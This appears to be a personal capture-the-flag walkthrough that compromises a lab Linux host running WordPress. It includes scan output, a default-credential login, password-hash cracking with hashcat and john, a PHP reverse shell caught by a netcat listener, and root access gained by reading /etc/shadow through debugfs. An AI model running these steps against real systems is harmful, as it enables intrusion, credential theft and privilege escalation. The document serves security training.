






# Enumeration

## Nmap

Initial TCP scan result

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-09 01:44 UTC
Nmap scan report for 192.168.148.16
Host is up (0.045s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 43.85 seconds
```

Second TCP scan result

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,80                  
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-09 01:45 UTC
Nmap scan report for 192.168.148.16
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 105.89 seconds
```

UDP scan result

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-09 01:47 UTC
Nmap scan report for 192.168.148.16
Host is up (0.045s latency).

PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   open|filtered dhcps
123/udp  open|filtered ntp
135/udp  open|filtered msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open|filtered snmp
445/udp  open|filtered microsoft-ds
631/udp  open|filtered ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 1.77 seconds
```

# Initial Access

## HTTP 80

`Wordpress CMS` is being used on port 80



`wpscan` returned some hits on vulnerable plugins/themes.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ wpscan --url <http://$IP> --enumerate p,t,u --plugins-detection aggressive
_______________________________________________________________
         __          _______   _____
         \\ \\        / /  __ \\ / ____|
          \\ \\  /\\  / /| |__) | (___   ___  __ _ _ __ ®
           \\ \\/  \\/ / |  ___/ \\___ \\ / __|/ _` | '_ \\
            \\  /\\  /  | |     ____) | (__| (_| | | | |
             \\/  \\/   |_|    |_____/ \\___|\\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - <https://automattic.com/>
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: <http://192.168.148.16/> [192.168.148.16]
[+] Effective URL: <http://192.168.148.16/wp-admin/setup-config.php>
[+] Started: Fri Jan  9 02:00:35 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: <http://192.168.148.16/readme.html>
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 6.2 identified (Insecure, released on 2023-03-29).
 | Found By: Most Common Wp Includes Query Parameter In Homepage (Passive Detection)
 |  - <http://192.168.148.16/wp-includes/css/dashicons.min.css?ver=6.2>
 | Confirmed By:
 |  Common Wp Includes Query Parameter In Homepage (Passive Detection)
 |   - <http://192.168.148.16/wp-includes/css/buttons.min.css?ver=6.2>
 |  Style Etag (Aggressive Detection)
 |   - <http://192.168.148.16/wp-admin/load-styles.php>, Match: '6.2'

[i] The main theme could not be detected.

[+] Enumerating Most Popular Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:00:14 <========================================================> (1499 / 1499) 100.00% Time: 00:00:14
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: <http://192.168.148.16/wp-content/plugins/akismet/>
 | Last Updated: 2025-11-12T16:31:00.000Z
 | Readme: <http://192.168.148.16/wp-content/plugins/akismet/readme.txt>
 | [!] The version is out of date, the latest version is 5.6
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - <http://192.168.148.16/wp-content/plugins/akismet/>, status: 200
 |
 | Version: 5.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - <http://192.168.148.16/wp-content/plugins/akismet/readme.txt>
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - <http://192.168.148.16/wp-content/plugins/akismet/readme.txt>

[+] Enumerating Most Popular Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:04 <==========================================================> (400 / 400) 100.00% Time: 00:00:04
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] twentytwentyone
 | Location: <http://192.168.148.16/wp-content/themes/twentytwentyone/>
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: <http://192.168.148.16/wp-content/themes/twentytwentyone/readme.txt>
 | [!] The version is out of date, the latest version is 2.7
 | Style URL: <http://192.168.148.16/wp-content/themes/twentytwentyone/style.css>
 | Style Name: Twenty Twenty-One
 | Style URI: <https://wordpress.org/themes/twentytwentyone/>
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
 | Author: the WordPress team
 | Author URI: <https://wordpress.org/>
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - <http://192.168.148.16/wp-content/themes/twentytwentyone/>, status: 500
 |
 | Version: 1.8 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - <http://192.168.148.16/wp-content/themes/twentytwentyone/style.css>, Match: 'Version: 1.8'

[+] twentytwentythree
 | Location: <http://192.168.148.16/wp-content/themes/twentytwentythree/>
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: <http://192.168.148.16/wp-content/themes/twentytwentythree/readme.txt>
 | [!] The version is out of date, the latest version is 1.6
 | [!] Directory listing is enabled
 | Style URL: <http://192.168.148.16/wp-content/themes/twentytwentythree/style.css>
 | Style Name: Twenty Twenty-Three
 | Style URI: <https://wordpress.org/themes/twentytwentythree>
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: <https://wordpress.org>
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - <http://192.168.148.16/wp-content/themes/twentytwentythree/>, status: 200
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - <http://192.168.148.16/wp-content/themes/twentytwentythree/style.css>, Match: 'Version: 1.1'

[+] twentytwentytwo
 | Location: <http://192.168.148.16/wp-content/themes/twentytwentytwo/>
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: <http://192.168.148.16/wp-content/themes/twentytwentytwo/readme.txt>
 | [!] The version is out of date, the latest version is 2.1
 | Style URL: <http://192.168.148.16/wp-content/themes/twentytwentytwo/style.css>
 | Style Name: Twenty Twenty-Two
 | Style URI: <https://wordpress.org/themes/twentytwentytwo/>
 | Description: Built on a solidly designed foundation, Twenty Twenty-Two embraces the idea that everyone deserves a...
 | Author: the WordPress team
 | Author URI: <https://wordpress.org/>
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - <http://192.168.148.16/wp-content/themes/twentytwentytwo/>, status: 200
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - <http://192.168.148.16/wp-content/themes/twentytwentytwo/style.css>, Match: 'Version: 1.4'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:01:00 <============================================================> (10 / 10) 100.00% Time: 00:01:00

[i] No Users Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at <https://wpscan.com/register>

[+] Finished: Fri Jan  9 02:01:59 2026
[+] Requests Done: 1930
[+] Cached Requests: 58
[+] Data Sent: 435.416 KB
[+] Data Received: 439.942 KB
[+] Memory used: 309.301 MB
[+] Elapsed time: 00:01:23
```

I looked up every plugin and theme but couldn’t find any known vulnerabilities associated with those. So I ran a `gobuster` scan and found `/filemanager`

```jsx
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,asp,xml,html,js,sql,gz,zip --exclude-length 279
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://192.168.148.16>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] Exclude Length:          279
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,sql,gz,zip,php,asp,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/filemanager          (Status: 301) [Size: 322] [--> <http://192.168.148.16/filemanager/>]
/index.php            (Status: 302) [Size: 0] [--> <http://192.168.148.16/wp-admin/setup-config.php>]
/index.php            (Status: 302) [Size: 0] [--> <http://192.168.148.16/wp-admin/setup-config.php>]
```

I was able to login with the default credentials `admin:admin` .





Inside `/filemanager/config/.htusers.php` , I found credentials for two accounts: `admin` and `dora` . The passwords for these users appear to be hashed using different algorithms. I am almost certain the admin hash is MD5. Also its password should be `admin` because I’m currently logged in as admin haha.



Crackstation confirmed.



`hashcat` is telling me Dora’s hash algorithm is `bcrypt` . Let’s crack it.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ echo '$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS' > hash.txt                            
                                                                                                                                          
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat hash.txt                                                   
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) Ultra 9 288V, 2913/5890 MB (1024 MB allocatable), 4MCU

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
```

Hashcat successfully cracked the hash

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS:doraemon
```

I thought I would be able to login to SSH using dora’s credentials but it returned `Permission denied`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh dora@$IP
dora@192.168.148.16: Permission denied (publickey).
```

Alternatively, I simply uploaded `php-reverse-shell.php` file inside `/filemanager/config` . Then I navigated to the path on the browser.



The payload was triggered and it connected to my nc listener. I got the shell as `www-data`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 80                
listening on [any] 80 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.148.16] 38262
Linux dora 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 03:13:00 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I stopped the listener and reconnected using `penelope` . Penelope is probably my favorite program right now. It automatically stabilizes and upgrades your TTY so you don’t have to go through all of the commands trying to stabilize your shell only to have it drop after a stupid typo. You can press `Ctrl + C` anytime and it still won’t kill your session.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 80       
[+] Listening for reverse shells on 0.0.0.0:80 →  127.0.0.1 • 192.168.136.128 • 172.20.0.1 • 172.17.0.1 • 192.168.45.236
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from dora~192.168.148.16-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/dora~192.168.148.16-Linux-x86_64/2026_01_09-03_15_18-045.log 📜
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@dora:/$ whoami
www-data
www-data@dora:/$ 
```

### Shell as `dora`

`/etc/passwd` shows the user does exist.

```bash
www-data@dora:/home/dora$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
...
dora:x:1000:1000::/home/dora:/bin/sh
```

Since I already had `dora`'s password, I tried switching to that user and successfully logged in.

```bash
www-data@dora:/home/dora$ su dora
Password: 
$ whoami
dora
```

Found `local.txt`

```bash
$ pwd        
/home/dora
$ ls        
local.txt
$ cat local.txt
bc0...
```

# Privilege Escalation

Dora is a member of `disk` group.

```bash
$ id
uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)
```

`df -h` to check disk space summary.

```bash
$ df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  5.1G  4.2G  55% /
udev                               947M     0  947M   0% /dev
tmpfs                              992M     0  992M   0% /dev/shm
tmpfs                              199M  1.2M  198M   1% /run
tmpfs                              5.0M     0  5.0M   0% /run/lock
tmpfs                              992M     0  992M   0% /sys/fs/cgroup
/dev/loop0                          62M   62M     0 100% /snap/core20/1611
/dev/loop1                          64M   64M     0 100% /snap/core20/1852
/dev/sda2                          1.7G  209M  1.4G  13% /boot
/dev/loop2                          68M   68M     0 100% /snap/lxd/22753
/dev/loop3                          50M   50M     0 100% /snap/snapd/18596
/dev/loop4                          92M   92M     0 100% /snap/lxd/24061
tmpfs                              199M     0  199M   0% /run/user/1000
```

We can examine and modify the disk using the `debugfs` utility in Linux.

```bash
$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs 1.45.5 (07-Jan-2020)
debugfs:  
```

Got access to the contents of `/etc/shadow`

```bash
debugfs:  cat /etc/shadow
root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::
daemon:*:19235:0:99999:7:::
bin:*:19235:0:99999:7:::
sys:*:19235:0:99999:7:::
sync:*:19235:0:99999:7:::
games:*:19235:0:99999:7:::
...
...
dora:$6$PkzB/mtNayFM5eVp$b6LU19HBQaOqbTehc6/LEk8DC2NegpqftuDDAvOK20c6yf3dFo0esC0vOoNWHqvzF0aEb3jxk39sQ/S4vGoGm/:19453:0:99999:7:::
```

I found `proof.txt`

```bash
debugfs:  cat proof.txt
5af...
```

Even though I found both `local.txt` and `proof.txt`. I like to challenge myself further and obtain the root shell.

I downloaded both `/etc/shadow` and `/etc/passwd` to combine them first with `unshadow` and finally crack the hash with `john` but failed.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ echo "root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::" > shadow.txt

┌──(kali㉿kali)-[~/Desktop]
└─$ unshadow passwd.txt shadow.txt > unshadow.txt 
                                 
┌──(kali㉿kali)-[~/Desktop]
└─$ cat unshadow.txt| head -n 1
root:mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:0:0:root:/root:/bin/bash
┌──(kali㉿kali)-[~/Desktop]
└─$ john unshadow.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 DONE (2026-01-09 04:05) 0g/s 8487Kp/s 8487Kc/s 8487KC/s !SkicA!..*7¡Vamos!
Session completed.
```

Then I simply saved the hash separately into a file `roothash.txt` and `john` cracked the hash.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ echo '$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.' > roothash.txt
                                                                                                                                          
┌──(kali㉿kali)-[~/Desktop]
└─$ john roothash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
explorer         (?)     
1g 0:00:00:00 DONE (2026-01-09 04:43) 1.492g/s 4967p/s 4967c/s 4967C/s adriano..cartman
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Got the shell as `root` !

```bash
$ su root
Password: 
root@dora:/# whoami
root
root@dora:/# id
uid=0(root) gid=0(root) groups=0(root)
```